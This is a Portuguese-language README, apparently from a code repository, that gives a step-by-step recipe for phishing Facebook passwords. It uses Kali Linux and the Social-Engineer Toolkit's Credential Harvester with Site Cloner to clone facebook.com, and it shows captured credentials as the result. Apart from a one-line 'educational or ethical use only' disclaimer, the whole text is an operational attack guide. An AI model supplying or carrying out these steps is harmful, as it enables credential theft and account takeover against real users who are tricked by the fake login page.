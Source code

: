 # 🎣 Phishing para Captura de Senhas do Facebook

### 🛠️ Ferramentas Necessárias

- 💻 **Kali Linux**
- 🛡️ **Setoolkit**

---

### ⚙️ Configurando o Phishing no Kali Linux

1. **Obter acesso root**:  
   ```bash
   sudo su
   ```

2. **Iniciar o Setoolkit**:  
   ```bash
   setoolkit
   ```

3. **Selecione o tipo de ataque**:  
   ```
   Social-Engineering Attacks
   ```

4. **Escolha o vetor de ataque**:  
   ```
   Web Site Attack Vectors
   ```

5. **Configure o método de ataque**:  
   ```
   Credential Harvester Attack Method
   ```

6. **Opte pelo método de clonagem**:  
   ```
   Site Cloner
   ```

7. **Obtenha o endereço IP da sua máquina**:  
   ```bash
   ifconfig
   ```

8. **Defina a URL para clonagem**:  
   ```
   http://www.facebook.com
   ```

---

### 📊 Resultados

Após a configuração, qualquer credencial inserida na página falsa será capturada. ⚠️ **Use apenas para fins educacionais ou éticos.**

![Captura de Tela](./passwd.png "Exemplo de credenciais capturadas")

---
